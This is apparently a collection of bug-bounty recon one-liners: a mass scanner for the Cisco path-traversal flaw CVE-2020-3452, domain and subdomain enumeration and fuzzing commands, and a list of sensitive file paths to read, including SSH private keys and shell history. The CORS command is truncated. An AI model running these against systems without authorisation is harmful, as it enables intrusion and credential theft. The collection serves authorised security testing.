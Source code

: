 - CVE-2020-3452 @vict0ni

    ```bash
    while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
    ```

- Get CIDR & Orgz from Target Lists @steve_mcilwain

    ```bash
    for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; done | uniq); done
    ```

- Get all the urls out of a sitemap.xml @healthyoutlet

    ```bash
    curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'
    ```

- CORS Misconfiguration @manas_hunter

    ```bash
    site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin:
    ```

- Find Hidden Servers and/or Admin Panels  @rez0__

    ```bash
    ffuf -c -u https://target .com -H "Host: FUZZ" -w vhost_wordlist.txt 
    ```

- Recon using api.recon.dev @z0idsec

    ```bash
    curl -s -w "\n%{http_code}" https://api.recon.dev/search?domain=site.com | jg .[].domain
    ```

- Gather domains from content-security-policy @geeknik

    ```bash
    curl -v -silent https://$domain --stderr - | awk '/^content-security-policy:/' | grep -Eo "[a-zA-Z0-9./?=_-]*" |  sed -e '/\./!d' -e '/[^A-Za-z0-9._-]/d' -e 's/^\.//' | sort -u
    ```

- Finding Sensitive Files
    -- Here U1 is user profile access.

    ```
    /proc/cmdline
    /proc/mounts
    /etc/motd
    /etc/mysql/my.cnf
    /proc/sched_debug
    /home/ U1/.bash_history
    /home/ U1/.ssh/id_rsa
    ```

    > https://pastebin.com/raw/yY9xQ6sf
    
- Subdomains to Burp Suite

    Export subdmains from file to Burp suite by [@tvmpt](https://twitter.com/tvmpt)

    ```bash
    cat <file-name> | parallel -j 200 curl -L -o /dev/null {} -x 127.0.0.1:8080 -k -s
    ```

    





